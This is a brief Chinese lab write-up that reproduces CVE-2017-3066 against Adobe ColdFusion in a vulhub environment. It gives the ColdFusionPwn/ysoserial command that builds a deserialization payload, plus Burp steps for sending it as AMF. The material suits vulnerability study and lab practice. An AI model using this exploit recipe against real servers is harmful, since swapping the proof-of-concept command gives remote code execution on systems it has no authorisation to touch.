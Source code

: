 https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2017-3066


https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html



环境启动成功后，访问http://your-ip:8500/CFIDE/administrator/index.cfm，输入密码vulhub，即可成功安装Adobe ColdFusion。



linux 下执行(windows7下未成功):

	java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.5-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser

发送 poc,

修改 Content-Type为application/x-amf


上传 poc.ser 到kali，

burp 右击选择Paste From File，上传poc.cer文件

![](1.jpg)

![](2.jpg)

如果成功，并且打算以后还需要用的话，右击选择Copy to File保存为文件。

![](3.png)


